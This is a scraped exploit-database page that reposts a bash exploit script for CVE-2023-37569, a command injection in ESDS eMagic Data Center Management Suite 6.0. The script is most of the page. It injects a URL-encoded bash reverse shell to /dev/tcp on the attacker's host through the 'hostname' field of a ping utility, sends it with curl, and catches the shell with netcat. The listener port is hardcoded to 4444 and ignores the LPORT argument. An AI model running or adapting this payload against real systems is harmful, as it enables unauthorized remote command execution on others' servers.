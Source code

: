 ```yaml
---
title: Emagic Data Center Management Suite 6.0 Remote Command Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:174084&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-10
fetch_date: 2025-10-04T11:58:48.024785
---
```


# Emagic Data Center Management Suite 6.0 Remote Command Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Emagic Data Center Management Suite 6.0 Remote Command Execution CVE-2023-37569

2023-08-09 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:174084
# Exploit Title: Emagic Data Center Management Suite v6.0 - OS Command Injection
# Date: 03-08-2023
# Exploit Author: Shubham Pandey & thewhiteh4t
# Vendor Homepage: https://www.esds.co.in/enlight360
# Version: 6.0.0
# Tested on: Kali Linux
# CVE : CVE-2023-37569

URL=$1
LHOST=$2
LPORT=$3

echo "*****************************"
echo "* ESDS eMagic 6.0.0 RCE *"
echo "* > CVE-2023-37569 *"
echo "* > Shubham & thewhiteh4t *"
echo "*****************************"

if [ $# -lt 3 ]; then
echo """
USAGE :

./exploit.sh http://<IP> <LHOST> <LPORT>
./exploit.sh http://192.168.0.10 192.168.0.20 1337
"""
exit 1
fi

url="$1/index.php/monitor/operations/utilities/"

echo "[+] URL : $URL"
echo "[+] LHOST : $LHOST"
echo "[+] LPORT : $LPORT"
echo

payload="bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F$LHOST%2F$LPORT%200%3E%261%27"

post_data="utility=ping&operations=yes&hostname=%3B%20$payload&param_before=&param_after=&probe_id=1&rndval=1682490204846"

echo "[!] Triggering exploit..."

echo $url

(sleep 3; curl -s -X POST -d $post_data $url > /dev/null) &

echo "[+] Catching shell..."
nc -lvp 4444
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
